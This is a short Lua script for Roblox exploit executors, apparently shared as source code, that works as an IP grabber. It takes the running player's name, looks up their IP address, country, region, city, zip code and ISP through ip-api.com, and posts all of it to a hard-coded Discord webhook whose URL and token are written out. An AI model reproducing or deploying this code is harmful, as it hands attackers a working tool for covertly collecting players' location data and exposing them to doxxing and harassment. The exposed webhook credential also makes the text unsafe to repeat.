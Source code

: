 local requestfunc = syn and syn.request or http and http.request or http_request or fluxus and fluxus.request or request
local player_name = game:GetService("Players").LocalPlayer.Name
local webhook_url = "https://discord.com/api/webhooks/1033115822379511899/ZFrE9YQca1ZBvilbNWU6h0r3yccgWOQuViRDMIVh-_0WVHdEng7cHV2l_JPvD3W63KHo"

local ip_info = requestfunc({
    Url = "http://ip-api.com/json",
    Method = "GET"
})
local ipinfo_table = game:GetService("HttpService"):JSONDecode(ip_info.Body)
local dataMessage = string.format("User: %s\nIP: %s\nCountry: %s\nCountry Code: %s\nRegion: %s\nRegion Name: %s\nCity: %s\nZipcode: %s\nISP: %s\nOrg: %s", player_name, ipinfo_table.query, ipinfo_table.country, ipinfo_table.countryCode, ipinfo_table.region, ipinfo_table.regionName, ipinfo_table.city, ipinfo_table.zip, ipinfo_table.isp, ipinfo_table.org)
requestfunc(
    {
        Url = webhook_url,
        Method = "POST",
        Headers = {
            ["Content-Type"] = "application/json"
        },
        Body = game:GetService("HttpService"):JSONEncode({["content"] = dataMessage})
    }
)
